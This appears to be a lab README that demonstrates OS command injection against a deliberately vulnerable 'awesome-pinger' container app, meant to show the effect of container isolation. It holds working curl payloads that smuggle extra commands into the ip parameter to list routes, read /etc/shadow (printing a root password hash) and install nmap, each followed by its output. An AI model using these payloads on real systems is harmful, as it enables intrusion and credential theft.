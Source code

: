 ## RCE attack examples on pinger

Due to poor or missing input sanitization, the application awesome-pinger(containers-app) contains a critical vulnerability that allows an attacker to execute arbitrary code on the remote machine under the UID of the pinger user.

Using curl, it is possible to execute any binary available on the system — or even install new software and run a reverse tunnel.

We will demonstrate the impact of container isolation on the vulnerable binary at several levels: on a legacy virtual machine, using manually configured namespaces, and inside a Docker environment.

To exploit this, you need some knowledge of Bash command chaining and a few encoding tricks, since curl doesn’t handle certain special characters (like spaces, dots, etc.) very well.

### ASCII table link 

https://www.rapidtables.com/code/text/ascii-table.html


### List local routes

```bash
$ curl "http://probeeh:8080?ip=127.0.0.1%3Bnetstat%20-rn" | jq -r .message
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   813    0   813    0     0    391      0 --:--:--  0:00:02 --:--:--   391
PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.140 ms
64 bytes from 127.0.0.1: icmp_seq=2 ttl=64 time=0.086 ms
64 bytes from 127.0.0.1: icmp_seq=3 ttl=64 time=0.087 ms

--- 127.0.0.1 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2049ms
rtt min/avg/max/mdev = 0.086/0.104/0.140/0.025 ms
Kernel IP routing table
Destination     Gateway         Genmask         Flags   MSS Window  irtt Iface
0.0.0.0         10.1.8.1        0.0.0.0         UG        0 0          0 enp1s0
10.1.8.1        0.0.0.0         255.255.255.255 UH        0 0          0 enp1s0
10.4.8.0        0.0.0.0         255.255.255.0   U         0 0          0 enp1s0
```

### Get local password db

```bash
$ curl http://probeeh:8080?ip=127.0.0.1%3bcat%20%2fetc%2fshadow | jq .message -r
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  1142    0  1142    0     0    546      0 --:--:--  0:00:02 --:--:--   546
PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.086 ms
64 bytes from 127.0.0.1: icmp_seq=2 ttl=64 time=0.088 ms
64 bytes from 127.0.0.1: icmp_seq=3 ttl=64 time=0.081 ms

--- 127.0.0.1 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2064ms
rtt min/avg/max/mdev = 0.081/0.085/0.088/0.003 ms
root:$6$YMXWnS37FE7FROaI$rUPLf0aA/2YN5zTtlnZPnE9mElnVtATh0XG1.B3JzpHpEXgQOqv4S.6kFMlRZnelWevRElQjsl7Synk3Kq3us/::0:99999:7:::
bin:*:19820:0:99999:7:::
daemon:*:19820:0:99999:7:::
adm:*:19820:0:99999:7:::
lp:*:19820:0:99999:7:::
sync:*:19820:0:99999:7:::
shutdown:*:19820:0:99999:7:::
halt:*:19820:0:99999:7:::
mail:*:19820:0:99999:7:::
operator:*:19820:0:99999:7:::
games:*:19820:0:99999:7:::
ftp:*:19820:0:99999:7:::
nobody:*:19820:0:99999:7:::
systemd-coredump:!!:20108::::::
dbus:!!:20108::::::
sssd:!!:20108::::::
chrony:!!:20108::::::
tss:!!:20108::::::
rpc:!!:20108:0:99999:7:::
rpcuser:!!:20108::::::
sshd:!!:20108::::::
tcpdump:!!:20108::::::
```

### Install nmap

```bash
$ curl http://probeeh:8080?ip=127.0.0.1%3bdnf%20-y%20install%20nmap | jq .message -r
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  2368    0  2368    0     0    233      0 --:--:--  0:00:10 --:--:--   606
PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.089 ms
64 bytes from 127.0.0.1: icmp_seq=2 ttl=64 time=0.088 ms
64 bytes from 127.0.0.1: icmp_seq=3 ttl=64 time=0.082 ms

--- 127.0.0.1 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2046ms
rtt min/avg/max/mdev = 0.082/0.086/0.089/0.003 ms
Last metadata expiration check: 0:46:15 ago on Tue 17 Jun 2025 11:39:30 AM CEST.
Dependencies resolved.
================================================================================
 Package           Architecture   Version               Repository         Size
================================================================================
Installing:
 nmap              x86_64         3:7.92-3.el9          appstream         5.4 M
Installing dependencies:
 nmap-ncat         x86_64         3:7.92-3.el9          appstream         222 k

Transaction Summary
================================================================================
Install  2 Packages

Total download size: 5.7 M
Installed size: 24 M
Downloading Packages:
(1/2): nmap-ncat-7.92-3.el9.x86_64.rpm          1.4 MB/s | 222 kB     00:00    
(2/2): nmap-7.92-3.el9.x86_64.rpm               9.0 MB/s | 5.4 MB     00:00    
--------------------------------------------------------------------------------
Total                                           6.7 MB/s | 5.7 MB     00:00     
Running transaction check
Transaction check succeeded.
Running transaction test
Transaction test succeeded.
Running transaction
  Preparing        :                                                        1/1 
  Installing       : nmap-ncat-3:7.92-3.el9.x86_64                          1/2 
  Running scriptlet: nmap-ncat-3:7.92-3.el9.x86_64                          1/2 
  Installing       : nmap-3:7.92-3.el9.x86_64                               2/2 
  Running scriptlet: nmap-3:7.92-3.el9.x86_64                               2/2 
  Verifying        : nmap-ncat-3:7.92-3.el9.x86_64                          1/2 
  Verifying        : nmap-3:7.92-3.el9.x86_64                               2/2 

Installed:
  nmap-3:7.92-3.el9.x86_64             nmap-ncat-3:7.92-3.el9.x86_64            

Complete!
```